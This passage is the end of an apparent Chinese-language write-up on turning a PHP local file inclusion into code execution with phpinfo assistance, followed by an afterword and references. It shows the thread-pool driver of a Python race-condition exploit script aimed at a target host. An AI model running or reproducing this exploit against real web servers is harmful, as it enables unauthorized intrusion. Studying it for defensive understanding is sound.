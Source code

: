 ```python
    l = threading.Lock()

    print "Spawning worker pool (%d)..." % poolsz
    sys.stdout.flush()

    tp = []
    for i in range(0,poolsz):
        tp.append(ThreadWorker(e,l,maxattempts, host, port, reqphp, offset, reqlfi, tag))

    for t in tp:
        t.start()
    try:
        while not e.wait(1):
            if e.is_set():
                break
            with l:
                sys.stdout.write( "\r% 4d / % 4d" % (counter, maxattempts))
                sys.stdout.flush()
                if counter >= maxattempts:
                    break
        print
        if e.is_set():
            print "Woot!  \m/"
        else:
            print ":("
    except KeyboardInterrupt:
        print "\nTelling threads to shutdown..."
        e.set()
    
    print "Shuttin' down..."
    for t in tp:
        t.join()

if __name__=="__main__":
    main()
```

## 0x00 后记

当然漏洞利用的环境比较苛刻，但思路还是很不错的。



参考：

http://www.cnblogs.com/littlehann/p/3665062.html

http://www.myh0st.cn/index.php/archives/494/

https://dl.packetstormsecurity.net/papers/general/LFI_With_PHPInfo_Assitance.pdf

https://www.exploit-db.com/docs/40992

